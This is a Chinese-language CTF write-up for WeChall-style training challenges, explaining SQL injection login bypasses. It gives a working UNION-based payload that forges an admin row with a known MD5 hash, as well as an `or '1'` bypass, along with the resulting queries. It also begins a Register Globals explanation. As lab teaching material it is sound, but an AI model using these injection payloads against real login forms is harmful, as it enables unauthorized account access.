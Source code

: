 ```
SELECT * FROM users WHERE username='admin' or '1' AND password='$password'
```

这里的`1`可以换成其他非空字符。

因为`or`在`and`的前面，所以可以理解成`username='admin'`和
`'1' AND password='$password'` 进行**或**运算， 因此即使第二部分是**假**，整条语句也是真的。

# Training: MySQL II

从代码可以看到username password分开来验证。通常的利用方法是使用union构造已知MD5值的查询。

查询代码：

```
$query = "SELECT * FROM users WHERE username='$username'";
```

username一栏填写`123' union select 1,'admin',md5('password');#`

构成sql语句：

```
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');#'
```

由于最后有个注释符号，所以相当于：

```
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');
```

这句话首先通过username=123将原语句报错。因此返回的将会是第二条语句产生的信息。

而我们union select的是直接构造了用户名为`admin`，密码为`password`的md5值。这样就可以让程序误认为我们构造的信息就是它从数据库里面提取得到的信息。

验证密码正确是通过判断： `$result['password']` 和 `$password` 是否一致。

`$result['password']`是用union构造的，因此password一栏填写`password`即可登录成功。

username填写 `123' union select 1,'admin',md5('password');#`
password填写 `password`

# Training: WWW-Basics



# Training: Register Globals

这题和[mysql I](https://www.tuziang.com/combat/1616.html)那题很类似，但是由于加了一个判断：

```
if (strtolower($login[0]) === 'admin') {
        $chall->onChallengeSolved(GWF_Session::getUserID());
}
```

判断中的`$login[0]`在28行已经被赋值为`$_POST['username']`。
